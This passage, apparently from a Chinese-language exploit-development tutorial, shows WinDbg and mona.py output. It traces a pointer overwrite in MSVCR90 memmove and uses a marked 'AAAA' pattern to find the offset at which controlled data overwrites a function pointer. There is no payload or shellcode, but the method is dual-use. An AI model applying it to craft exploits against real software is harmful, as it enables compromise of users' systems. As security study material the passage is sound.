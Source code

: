 ```
MSVCR90!memmove+0xfc:
744fb40c f3a5            rep movs dword ptr es:[edi],dword ptr [esi]
0:000&gt; dds poi(@edi-4) L1
4141415d  ????????
```

我们能看到我们覆写数据的指针，指向了来自esi中值对应的函数。因为esi中的数据是标记过的，我们能知道用来覆写指针的偏移。



```
0:000&gt; ?0x5d-0x41
Evaluate expression: 28 = 0000001c
0:000&gt; !py mona do -a 002513c4 -s 0x78
Hold on...
[+] Command used:
!py mona.py do -a 002513c4 -s 0x78
----------------------------------------------------
[+] Dumping object at 0x002513c4, 0x78 bytes
[+] Preparing output file 'dumpobj.txt'
    - (Re)setting logfile dumpobj.txt
[+] Generating module info table, hang on...
    - Processing modules
    - Done. Let's rock 'n roll.
&gt;&gt; Object at 0x002513c4 (0x78 bytes):
Offset  Address      Contents    Info
------  -------      --------    -----
+00     0x002513c4 | 0x41414141  = ASCII 'AAAA' 
+04     0x002513c8 | 0x41414142  = ASCII 'AAAB' 
+08     0x002513cc | 0x41414143  = ASCII 'AAAC' 
+0c     0x002513d0 | 0x41414144  = ASCII 'AAAD' 
+10     0x002513d4 | 0x41414145  = ASCII 'AAAE' 
+14     0x002513d8 | 0x41414146  = ASCII 'AAAF' 
+18     0x002513dc | 0x41414147  = ASCII 'AAAG' 
+1c     0x002513e0 | 0x41414148  = ASCII 'AAAH' 
+20     0x002513e4 | 0x41414149  = ASCII 'AAAI' 
+24     0x002513e8 | 0x4141414a  = ASCII 'AAAJ' 
+28     0x002513ec | 0x4141414b  = ASCII 'AAAK' 
+2c     0x002513f0 | 0x4141414c  = ASCII 'AAAL' 
+30     0x002513f4 | 0x4141414d  = ASCII 'AAAM' 
+34     0x002513f8 | 0x4141414e  = ASCII 'AAAN' 
+38     0x002513fc | 0x4141414f  = ASCII 'AAAO' 
+3c     0x00251400 | 0x41414150  = ASCII 'AAAP' 
+40     0x00251404 | 0x41414151  = ASCII 'AAAQ' 
+44     0x00251408 | 0x41414152  = ASCII 'AAAR' 
+48     0x0025140c | 0x41414153  = ASCII 'AAAS' 
+4c     0x00251410 | 0x41414154  = ASCII 'AAAT' 
+50     0x00251414 | 0x41414155  = ASCII 'AAAU' 
+54     0x00251418 | 0x41414156  = ASCII 'AAAV' 
+58     0x0025141c | 0x41414157  = ASCII 'AAAW' 
+5c     0x00251420 | 0x41414158  = ASCII 'AAAX' 
+60     0x00251424 | 0x41414159  = ASCII 'AAAY' 
+64     0x00251428 | 0x4141415a  = ASCII 'AAAZ' 
+68     0x0025142c | 0x4141415b  = ASCII 'AAA[' 
+6c     0x00251430 | 0x4141415c  = ASCII 'AAA' 
+70     0x00251434 | 0x4141415d  = ASCII 'AAA]' 
+74     0x00251438 | 0xff000000
```
